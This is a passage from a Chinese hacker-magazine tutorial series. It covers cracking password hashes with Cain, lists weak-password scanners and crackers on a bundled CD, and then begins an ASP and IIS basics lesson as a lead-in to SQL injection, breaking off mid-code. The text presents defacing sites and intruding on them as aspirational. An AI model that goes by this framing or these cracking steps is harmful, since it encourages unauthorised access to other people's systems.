

图17

事实上，不一定非要CAIN嗅探到的密码散列才可以破解。直接打开破解器后，在左边框上选择一种合适的密码类型，然后点击右键把你通过其他方式得到的密码散列添加到列表里，再通过同样的方式进行破解。图17是用MD5散列进行破解的截图。

讲完这节课，悟空看着备课录里还有MySQL弱口令的扫描和UNIX下shadow文件的破解，因为时间关系没能够讲到，感到无比的遗憾，也再一次印证了悟空现在力不从心。在这里，悟空向一年多来支持菜鸟学堂的众多读者表示真心的感谢，也希望大家从菜鸟学堂里确实能找到一些自己需要的东西，祝大家早日摆脱菜鸟的称号，成为中国黑客界的黑客高手。谢谢大家！

（文中“涉及到的”工具包、4899口令探测机、Radmin、SA弱口令扫描器、MSSQL远程连接器、3389弱口令破解器、AWPR、CAIN汉化版，光盘有收录。）

## 脚本注入班（一）

## 初识 ASP



11月的第一节课，比以往时候开得更早一些。因为学堂换老师了。新老师毒药往台上一站，看着台下的学生们全神贯注地用扫描工具扫描、用注入工具注入、用溢出工具蹂躏，还把木马客户端和服务端搞乱，聒噪……于是毒药先生咳嗽了一下：“咳！”

教室安静下来后，所有小菜鸟都认真地望着毒药：“大家好，我是你们的新老师，我的名字叫毒药。”

所有菜鸟鼓掌欢迎新老师后，毒药继续讲课：“过去的一年多里，悟空老师不辞辛苦，诲人不倦，把大家从一无所知的菜鸟带到今天会使用大部分工具的脚本小子！悟空老师功不可没！不过，我想告诉大家的是，一个光会使用工具的人不能被称做黑客！你们只能被叫做脚本小子！你们想永远做一个脚本小子么？”

> “不——想——！”菜鸟们异口同声地答道。  
> “很好！那你们想学什么呢？”毒药微笑着回答。  
> “报告老师，我想学脚本！现在最流行的技术就是脚本入侵了，尤其是注入！可是我们平时用工具注入的时候总是一知半解，不懂得工具在做什么，我想学习注入的原理，不知道要从哪里开始！”一位菜鸟很踊跃地发言。

毒药老师听到这话，皱了皱眉头：“要了解注入，必须有一定的ASP基础和SQL语法基础，这些都有点难度。不过既然你们想学，那我们就先从ASP基础开始吧！”

#### 一、认识静态网页和动态网页

在学习ASP之前，我们先来区分一下静态网页和动态网页。平时我们浏览网页时，看到的以htm或者html做后缀的文件一般就是静态页面，而以.asp或者.php、.jsp、.cgi做后缀的文件则是动态页面。这里给出它们的定义。

##### 1. 静态网页

所谓静态网页，就是网站的网页内容固定不变。页面都是事先放到服务器上，当我们访问时，服务器直接把页面发给我们的浏览器，如图1。



图1

##### 2. 动态网页

所谓动态网页，并不是指在网页上显示几个动态图或者上面有动画的网页，而是网页文件含有程序代码，服务器端程序会根据用户的要求解释执行代码，而仅把执行的结果传给我们的浏览器，我们得到的仅仅是一个结果，如图2。


#### 二、ASP 入门

##### 1. 什么是 ASP

ASP全称是Active Server Pages。首先我们要明确一个概念：“ASP不是一种脚本语言。”ASP只是提供了一种对脚本语言支持的环境。ASP和脚本语言的关系是：“ASP提供对脚本语言的环境支持，而完成确定的任务却要靠脚本语言（例如VBScript、Jscript）。”ASP网页是包含了以上脚本语言代码的网页，ASP文件的格式为.asp，比如我们平时经常在浏览器里看到http://www.xxx.com/index.asp，其中index.asp就是一个ASP的网页页面。

##### 2. ASP 的特点

ASP具有简单易学、易用、能迅速开发、对服务器的要求低等优点，因此受到很多人欢迎和使用。

##### 3. ASP 能做什么

ASP是一种WEB编程技术，使用它可以实现留言簿、聊天室以及社区论坛等应用。

##### 4. ASP 是怎样工作的

当浏览器请求一个*.asp网页时，服务器响应该请求，服务器端根据请求解释执行ASP代码，然后仅仅把处理的结果以网页形式传给浏览器，原理如图3。



##### 5. ASP 的开发工具

ASP是纯文本文件（后缀名为.asp），可用记事本直接编辑，也可以使用网页设计软件（如FrontPage、DreamWeaver）编辑。由于ASP在服务器端执行，要“看懂”ASP需要IIS等服务器支持。

#### 三、搭建 IIS 服务器

> **小知识：什么是 IIS**  
> Internet Information Server（IIS）是一个WEB服务组件，是在Windows上建立Internet服务的基本组件。

##### 1. 如何安装 IIS

打开“控制面板”中的“添加/删除程序”……

在“添加/删除Windows组件”中勾选“Internet 信息服务”（图4），插入Windows安装光盘即可安装。



安装完成后，在命令提示符输入 `netstat -an` 可以看到80端口已打开（图5）。



##### 2. 简单设置 IIS

安装好IIS后，打开“控制面板”→“管理工具”→“Internet 信息服务”，在默认网站点击右键进入属性进行设置（图6）。



“主目录”选项即网站默认目录（如 `C:\Inetpub\wwwroot` ），可按需要改为本地其他目录，并配置访问权限等（图7）。



般把“执行、写入、浏览”等都打上勾，其他按默认的就行了，如图7（小编注：把浏览和写入权限都勾上是非常不安全的做法，不过我们是为了学习配置 IIS，而不是做服务器安全配置，就不多说了）。

“文档”选项里面显示的是默认作为主页的文档名称（图8）。我们可以添加我们自己想默认访问的页面，例如把 `index.asp` 添加进去作为网站的首页，点击右面的“添加”就可以了。我们还可以靠左面的箭头调整默认文档的顺序，越靠上的越优先。例如：

- `index.htm`
- `index.asp`

当找不到 `index.htm` 的时候，它就会继续寻找 `index.asp` 文件。



### 3、设置虚拟目录

设置好主目录后，IIS 对客户端的请求会自动定向到主目录内，有的时候我们出于某种目的，可能需要使用除主目录外的其他目录，这就需要使用虚拟目录。

> 其实说白了，虚拟目录就是在主目录下的一个目录。IIS 处理访问请求时，和主目录下的子目录没有任何区别。由于它并不是真的目录真实存在的，所以称为虚拟目录。

### 4、创建虚拟目录

右键单击“默认网站”，“新建”选择“虚拟目录”（图9），弹出“新建虚拟目录向导”。



继续“下一步”，在“别名”里输入目录的别名，这里我用 `bbs` 代替（图10）；继续“下一步”，选择硬盘上的一个真实目录（目录名最好不要用中文，否则可能会出现无法显示的情况），我选择 `D:\temp`；继续“下一步”，设置适当的权限，点击“完成”，虚拟目录设置生效（图11）。这时我们如果访问 `127.0.0.1/bbs` 就会访问 `D:\temp` 目录。





呵呵，是不是大家已经理解了虚拟目录的概念啊，留着以后用吧。

## 四、创建一个简单的ASP页面

现在教大家制作我们自己的第一个 `asp` 页面，一个简单的黑页，然后利用我们搭建的 IIS 来访问。使用记事本编辑以下代码：

```asp
Response.Write "我是宇宙超级无敌黑客悟空，我永远爱晶晶妹妹"
```

把上面代码保存为 `1.asp`，放到我们 IIS 的主目录、主目录下的任何目录，或我们刚刚设置的虚拟目录下面。我存放到了 `D:\temp` 虚拟目录下面，然后在浏览器地址栏里提交 `http://127.0.0.1/bbs/1.asp`，如图12，成功显示了我们的内容。



### 1、“<%”和“%>”符号的意义

ASP 代码要放在“<%”和“%>”符号中间，所有包含在“<%”和“%>”中间的代码被 IIS 解释执行，IIS 执行后把结果发给浏览器。虽然微软没有做严格要求，但是我们一般为了程序的通用和易读，还是有必要这样做，否则可能会出现我们不希望的情况。

例如把“<%”和“%>”去掉，再把上面的代码保存为 `1.asp`，再次提交 `http://127.0.0.1/bbs/1.asp`，结果却发生了变化（图13），把文件中的所有文字都显示出来了。

菜鸟学堂

我们仅仅是想显示引号内的内容。所以我们现在就应该知道了：包含在“<%”和“%>”里的是 ASP 代码，会被 IIS 执行；而不包含的则会被“原样输出”。





分别查看两次结果的源代码，我们看到的仅仅是如图14所示的东西，是看不到我们本来的代码的。这就验证了我们前面说的“服务器端根据请求解释执行 ASP 的代码，然后仅仅把处理结果以网页形式传给我们的浏览器”。

### 2、Response.Write 用法

`Response.Write` 就是向用户浏览器输出信息，例如把上面代码改写为：

```asp
<%
Response.Write "你好啊"
%>
```

我们访问时就会看到“你好啊”。你可以把它改为你喜欢的任何东西，例如以后当我们黑站时就可以替换它的主页了，在上面写上我们的名字是不是很酷啊。

| 方法 | 说明 | 用法 |
|---|---|---|
| Response.Write | 向用户浏览器输出信息 | Response.Write("你好") |
| Response.Redirect | 转到其他 URL 地址 | Response.Redirect("login.asp") |

表-1：Response 的常用方法

- **Response.Write ""**：把引号里面的内容输出到浏览器上。  
- **Response.Redirect "login.asp"**：重定向到 `login.asp` 页面。

递数据到服务器呢？好吧，那就一起来解释一下，和 `Response.Write` 对应的是 `Request`。

### 3、Request 的基本用法

`Request` 的主要功能是从客户端得到数据。常用的有三种取得数据的方法，分别是：`Request.QueryString()`、`Request.Form()`、`Request()`。

我们仅用 `Request()` 方法来进行简单演示，把以下代码保存为 `a.asp`，并放入 IIS 的 web 目录下，然后访问 `http://localhost/a.asp?id=123`，看看有什么效果吧，如图15。

```asp
<%
Dim num
num = Request("id")
